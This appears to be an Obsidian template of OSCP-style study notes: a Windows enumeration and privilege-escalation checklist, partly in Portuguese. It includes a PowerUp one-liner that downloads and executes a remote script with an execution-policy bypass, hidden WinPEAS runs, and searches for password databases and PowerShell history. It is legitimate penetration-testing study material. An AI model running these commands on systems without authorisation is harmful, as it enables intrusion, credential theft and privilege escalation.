 ```yaml
---
icon: 🗒
target:
- ""
createdAt: "{{DATE}}"
imageNameKey: nota_<% tp.file.title.split(" ").join("_").toLowerCase() %>
tags: 
NoteRel:
---
```

## Local Machine enumeration Checklist
- [ ] Username, hostname and privileges
- [ ] Groups Memberships of the current user
- [ ] Existing users and groups
- [ ] Operating System, version, arch and security updates
- [ ] Network information
- [ ] installed Applications x64 and x86
- [ ] Running Process
- [ ] Sensitive File Search
- [ ] PowerShell History and Transcript
- [ ] Powershell Env Variables
- [ ] Schedule tasks
- [ ] Services Running

## Privesc Checklist
- [ ] Installed softwares vulnerabilities
- [ ] Schedule Tasks
- [ ] Services Running
- [ ] WinPeas
- [ ] Bloodhound
- [ ] DLL Hijacking
- [ ] winlogon
- [ ] putty

## References
[Windows Privilege Escalation - Situation Awareness](obsidian://open?vault=OSCP-Study-Notes&file=Windows%20Privilege%20Escalation%2FSituational%20Awareness)
https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#windows-version-and-configuration

## Initial executes - Tools Automated

### Winpeas
> cmd
```cmd
wmic process call create "cmd.exe /c C:\temp\winpeas.exe > C:\temp\winpeas.txt"
```

>powershell
```powershell
Start-Process -FilePath "C:\temp\winpeas.exe" -ArgumentList " > C:\temp\output.txt" -WindowStyle Hidden -NoNewWindow

Start-Process -FilePath "C:\temp\winpeas.exe" -RedirectStandardOutput "C:\temp\winpeas.txt" -WindowStyle Hidden
```

### Powerup
```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://x.x.x.x/wintools/PowerUp.ps1'); Invoke-AllChecks"
```

# Enumeration for (USERNAME)
## hostname and username
```js
whoami
hostname

```

## User Privileges
```js
whoami /priv

```

## Group memberships
```js

whoami /groups

```

## Sensitive Files By User and Group
```js
Get-ChildItem -Path C:\ -Include *.kdbx,*.txt -File -Recurse -ErrorAction SilentlyContinue
```

```js
Get-ChildItem -Path C:\users -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

## Powershell History and Transcript
```js
Get-History

type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

cat (Get-PSReadlineOption).HistorySavePath
```

## Powershell Env Variables
```js
Get-ChildItem Env: | ft Key,Value
```

## Find-LocalAdmins
```js
Find-LocalAdmins
```

## Services Running
- Procura serviços que utilizam executaveis cujo temos permissões de acesso
- Procurar por serviços que estão em diretórios cujo temos permissões de acesso.
- utilizar PowerUp.ps1 para automatizar processo e fazer método manual.
```js
net start
sc query
```

## Schedule Tasks
- Procurar por tasks cujo o PathName tenha espaço e não tenha aspas
- Procurar por tasks cujo o binário temos permissões de acesso
- Procurar por tasks cujo o binário está num diretório que temos permissão
- Usar powerup.ps1 para automatizar
```js
schtasks /query /fo LIST 2>nul | findstr TaskName

schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM

Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```



# System Enumeration 
## Existing Users and Groups

### Users
```js
net user
```

### Groups
```js
net localgroup
Get-LocalGroup
```

## System SO, info, version, arch
```js
systeminfo
```

## Security Patches installed
```js
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }

```

## Network Information
```js
ipconfig /all

```

```js
route print

```
## Installed Applications
#### Apps x86
```js
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
#### Apps x64
```js
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

```

## Running Process
```js
Get-Process
```

## DLL Hijacking
- Se for possível, baixar o executavel do software e procurar localmente por DLLs vulneraveis.
- Procurar por arquivos de logs de software
- Procurar nome do software na internet e identificar DLLs hijacking conhecidas

```

```

